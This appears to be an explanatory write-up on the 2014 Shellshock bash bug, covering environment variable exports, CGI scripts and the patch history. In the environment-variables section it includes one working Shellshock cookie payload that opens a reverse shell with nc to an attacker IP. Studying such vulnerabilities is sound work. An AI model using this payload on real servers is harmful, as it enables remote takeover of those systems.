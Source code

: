 <br>
## CVE 2014-6271 aka Shellshock or Bash Bug
CVE 2014-6271 is a parsing bug from September 2014 which allows attackers to inject bash commands into a web server.  This bug is a result of how many web applications handle user input by oftentimes indirectly relying on bash’s environmental variables as a middleman to temporarily store information.  This design is ubiquitous to most modern web servers simply due to how numerous programming libraries are designed (lcamtuf, 2014).  The first patch for CVE 2014-6271 attempted to directly patch bash’s parser but it was quickly defeated in less than 24 hours (lcamtuf, 2014).  The second attempt to patch CVE 2014-6271 was developed by Florian Weimer and has since been colloquially called the “Florian patch” (lcamtuf, 2014).  This patch essentially “isolates the function parsing code from attacker-controlled strings” (lcamtuf, 2014) which completely eliminates the possibility of bash’s parser being subject to command injection through environmental variables.  

<br>
## Environmental Variables and Exports in Bash
CVE 2014-6271 is easy to leverage, simply place a valid bash statement in any field which would be exported into an environmental variable by the target web server.  For example, a cookie could be set to <font color="#00ff00">( ) { nc -e /bin/sh 192.168.13.100 80; }</font> and the web server would then connect back to the attacker’s IP address on 192.168.13.100:80 and listen for further instructions.  Bash exports use environmental variables as containers to make variables and functions available to other subprocesses of the shell.  There are many environmental variables which are by default available to all subprocesses such as <font color="#00ff00">echo $HOSTNAME</font>.  These environmental variables provide a quick and simple method for users and developers to access and hand off data between scripts without writing the data to a file or searching for system files.  An alternative to referencing above environmental variable would be <font color="#00ff00">cat /etc/hostname</font>.

<br>
## Common Gateway Interface (CGI) Scripts
CGI scripts are a colloquial programming term for any code which runs on a web server that handles user input/output (Claws, 2010).  These ‘scripts’ are typically written in C, Java, Perl, PHP, and Python and each script performs a specific function on a web server when it serves a request to a client.  For example, one CGI script may handle cookie management.  Another script may take a HTML POST request, update a database, which then updates a web page with user generated content.  A third script may serve different web pages depending on the client browser’s user agent.  CGI scripts simply serve as a customizable translation layer between user input and standardized web server functions which are typically coded and compiled by the web server’s developers.  

<br>
## StackOverflow